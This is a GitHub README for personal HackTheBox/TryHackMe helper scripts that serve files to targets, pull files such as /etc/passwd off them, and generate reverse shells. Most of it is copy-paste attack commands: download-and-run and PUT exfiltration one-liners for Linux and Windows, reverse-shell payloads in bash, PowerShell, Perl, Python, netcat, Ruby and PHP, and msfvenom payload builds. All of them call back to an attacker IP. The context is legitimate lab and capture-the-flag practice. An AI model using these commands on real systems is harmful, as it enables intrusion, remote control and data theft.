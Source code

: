 # htb-scripts

Scripts I wrote for hacking HackTheBox machines or TryHackMe machines.

All the scripts will take `tun0` tunnel IP by default, as HackTheBox and TryHackMe both requires VPN connection into their network in order to hack their machines.

## Installation

You can git clone this repository in any directory you choose, then modify your path to include it.

For example, I will be installing the scripts to `~/tools/bin` directory, and update my `~/.zshrc` file to include th path. If you're using bash, change the target to `~/.bashrc`

```
git clone https://github.com/the-c0d3r/htb-scripts ~/tools/bin
echo 'export PATH=~/tools/bin:$PATH' >> ~/.zshrc
source ~/.zshrc
```


## srvfile

```
Usage

srvfile file_to_serve
```

This is short for "serve file". Assume you want to serve this file called `nc.exe` to your target host, you would do the following command.

```
$ srvfile nc.exe

=== LINUX
curl http://10.10.10.10/nc.exe -o nc.exe

wget http://10.10.10.10/nc.exe

=== WINDOWS
powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.DownloadFile('http://10.10.10.10/nc.exe','c:\temp\nc.exe');"

certutil -urlcache -f http://10.10.10.10/nc.exe nc.exe

Copy paste one of the command above to your reverse shell on the target to download files.
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
The script then gives you a templated command that you can just copy paste to the target through your command execution vector, for both Linux and Windows. Then it will automatically host the python3 simple http server on the port 80.

Once you run the command on your target, it will download the file that is being served from your machine.

## putsrv

Sometimes you might need to upload file from the target machine to your kali machine. This script is made for that purpose. It will run a python HTTP PUT server and provide you command to just copy paste from the target to upload file to your machine.

```
Usage: putsrv file_to_put_from_server path_to_put_on_local
e.g.:  putsrv /etc/passwd .
```
First argument is the file to upload from target, second argument is the path to be uploaded on your machine.
In this example, I want to upload `/etc/passwd` from the target machine that I am exploiting.

```
$ putsrv /etc/passwd .
IP Detected: 10.10.10.10
File to PUT: /etc/passwd
Path to PUT: /mnt/hgfs/tools/serve/shell



=== LINUX
curl -X PUT --upload-file /etc/passwd http://10.10.10.10/


wget -O- --method=PUT --body-file=/etc/passwd http://10.10.10.10/



=== WINDOWS
powershell -ep bypass -c "$wc=New-Object Net.WebClient;$wc.UploadFile('http://10.10.10.10/', 'PUT', '/etc/passwd');"


--------------------------------
Copy the command above and paste it in your reverse shell to upload the file.

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The script then give you the command to be copy pasted on the target machine to upload the file to your own machine, and startup the http server. It supports both Linux and Windows.

Once you run the command on your target, the file will be uploaded from your target to your machine, on the path you specified.


## shgen

This is short for "shell generator". This script is to be used for generating reverse shell commands to be executed on the target with the command execution vectors.

```
Usage: shgen <PORT>
```

There is only one argument necessary for this script, the PORT for the reverse shell to connect back to. So for example, if you want to have reverse shell code to connect back on port 8080, you would execute the following.

```
$ shgen 8080
   _____ __         ____      ______
  / ___// /_  ___  / / /     / ____/__  ____
  \__ \/ __ \/ _ \/ / /_____/ / __/ _ \/ __ \
 ___/ / / / /  __/ / /_____/ /_/ /  __/ / / /
/____/_/ /_/\___/_/_/      \____/\___/_/ /_/


 Author  the-c0d3r

=== BASH
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1

=== PowerShell
$ip='10.10.10.10';$port=8080;$client = New-Object System.Net.Sockets.TCPClient($ip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

=== Pearl
perl -e 'use Socket;$i="10.10.10.10";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(,inet_aton()))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

=== Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

=== nc
nc.exe 10.10.10.10 8080 -e cmd.exe
nc -e /bin/sh 10.10.10.10 8080
rm /tmp/zero8080;mkfifo /tmp/zero8080;cat /tmp/zero8080|/bin/sh -i 2>&1|nc 10.10.10.10 8080 >/tmp/zero8080

=== Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

=== Php
php -r '$sock=fsockopen("10.10.10.10",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

==========================

=== MSF Venom Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f exe -e x86/shikata_ga_nai -i 8 > shell.exe

non-staged linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f elf > shell.elf

=== WEB
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f asp > shell.asp
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=8080 -f raw > shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f raw > shell.jsp
---
Running nc reverse shell handler
Hack away
listening on [any] 8080 ...

```

It will then generate a list of reverse shell commands for you to copy paste to the target machine to return a reverse shell. And at the same time, it will spawn a "nc" listener.

You can very easily add new reverse shell templates that you usually use. With this, you don't have to keep looking up what is your IP, and what payload you want. You simply specify port and it will take care of the rest.

